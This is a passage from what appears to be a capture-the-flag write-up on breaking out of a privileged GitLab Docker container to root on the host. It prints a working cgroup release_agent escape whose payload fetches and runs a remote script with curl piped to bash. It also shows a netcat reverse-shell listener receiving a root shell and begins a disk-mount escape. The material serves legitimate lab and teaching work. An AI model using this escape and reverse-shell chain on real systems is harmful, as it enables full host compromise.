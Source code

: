 ```

root@gitlab:~# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
root@gitlab:~# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
root@gitlab:~# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@gitlab:~# echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.14.8/shell.sh | bash' >/c;
root@gitlab:~# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";

```

Those commands may look like complete nonsense on first glance. I created a [follow-on post](/2021/05/17/digging-into-cgroups.html) digging into this.

On running the last command, I get a request for `shell.sh` at my Python webserver, and then a shell at a listening `nc` on my VM:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 51066
id                                                  
uid=0(root) gid=0(root) groups=0(root)

```

I can upgrade my shell just like above, and access `root.txt`:

```

root@ready:/root# cat root.txt
b7f98681************************

```

### File System Escape

Instead of running commands, I could also mount the host filesystem. `lsblk` shows the devices, and `sda2` looks like the main disk:

```

root@gitlab:/# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop1    7:1    0 71.3M  1 loop 
loop4    7:4    0 31.1M  1 loop 
loop2    7:2    0 55.5M  1 loop 
loop0    7:0    0 55.4M  1 loop 
sda      8:0    0   20G  0 disk 
|-sda2   8:2    0   18G  0 part /var/log/gitlab
|-sda3   8:3    0    2G  0 part [SWAP]
`-sda1   8:1    0    1M  0 part 
loop5    7:5    0 31.1M  1 loop 
loop3    7:3    0 71.4M  1 loop 

```
